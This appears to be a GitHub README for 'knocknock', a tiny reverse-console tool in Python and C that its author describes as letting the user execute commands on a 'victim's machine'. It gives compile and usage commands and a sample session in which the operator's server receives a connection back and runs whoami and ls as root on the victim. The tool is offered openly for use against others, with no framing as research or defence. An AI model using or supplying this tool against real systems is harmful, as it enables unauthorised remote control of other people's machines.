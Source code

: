 > ![](cmd.ico) A Tiny REVERSE CONSOLE that allows you excute command on victim's machine.
>
> Python version Support both Python 2 & 3, no thirdpart dependencies.
> There is also a C version client side program Support Linux & Windows.
> WARN: (Server <=> Client communications not encrypted)


### Compile C version `knocknock.c`
```bash
# Windows CL
$> cl knocknock.c /O1 /D WIN32 /link /subsystem:console
# Windows or Linux gcc
$> gcc -Wall -O1 knocknock.c -o knocknock
```

### How To Use?
```bash
$> ./server.py bind_address:bind_port
$> ./knocknock.py server_ip:server_port[:retry_interval]

# Server Example
$> ./server.py 127.0.0.1:4433

# Client Example (C version has the same argument)
$> ./knocknock.py 127.0.0.1:4433 # default retry interval 60 seconds
$> ./knocknock.py 127.0.0.1:4433:60
```

## Example
#### Your Machine
```bash
root@server 07:47 /home $ ./server 0.0.0.0:2345
listen on 0.0.0.0:2345, waiting for connection.
connection from *.*.*.*:49006
$> whoami
root

$> ls -la
total 16
drwxr-xr-x  3 root root 4096 Feb 11 07:31 .
drwxr-xr-x 22 root root 4096 Jan 30 09:55 ..
-rwxr-xr-x  1 root root  532 Feb 11 07:31 knocknock
drwxr-xr-x  5 git  git  4096 Jan  3 08:41 jack

$>
```

#### Victim's Machine
```bash
root@boy 07:47 /home $ ./knocknock *.*.*.*:2345
```
End.
